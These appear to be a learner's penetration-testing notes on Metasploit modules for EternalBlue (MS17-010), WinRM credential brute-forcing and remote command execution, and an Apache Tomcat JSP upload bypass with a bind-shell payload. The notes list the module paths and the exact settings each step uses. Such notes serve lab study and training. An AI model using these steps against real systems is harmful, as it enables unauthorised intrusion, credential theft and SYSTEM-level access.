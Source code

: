 /smb/smb_ms17_010

/smb/ms17_010_eternalblue
Make sure the os architecture is correct x64 or x86

### WinRM exploit (not a vuln)
- Remote management on windows
- typically -p5985 5986(HTTPS)
- get creds then access

Demo:
Note, must use -p- for scan as this lies outside the 1000common ports (service banner might be wrong)

/winrm/winrm_auth_methods
Auth methods supported here:
- Negotiate protocol
- basic protocol
-> can bf the pw

/winrm/winrm_login
`uri /wsman`
`set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
`set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

/winrm/iwnrm_cmd
set creds
`set CMD whoami`

/winrm/winrm_script_exec
set creds
`set FORCE_VBS true` 
--> use visual basic script stager instead of powershell command stager

x64 sessions is received as session is migrated to svchost.exe which is a 64 bit process with `NT Authority\system`

### Apache Tomcat webserver
- Utilises HTTP protocol to facilitate communication betwn server and clients
- Port 8080 by default
webserver Apache vs Apache tomcat
- Apache Tomcat used to host for webapps developed in Java (dynamic)
- standard Apache HTTP web server used to host HTML or PHP web application (static)

Hence dynamic nature allowed remote code execution

Demo:
/http/tomcat_jsp_upload_bypass
- downloads a jsp file (java service file) so a java payload is required
`set payload java/jsp_shell_bind_tcp`
`set SHELL cmd`
-> Need to set the shell for the payload (windows in this case. Bash if linux maybe)
Note: Rhosts and Rhost on the payload needs to be the same for bind shell. !!!!

Exploit might take a few tries.  -> use `check` to make sure it shud actly work
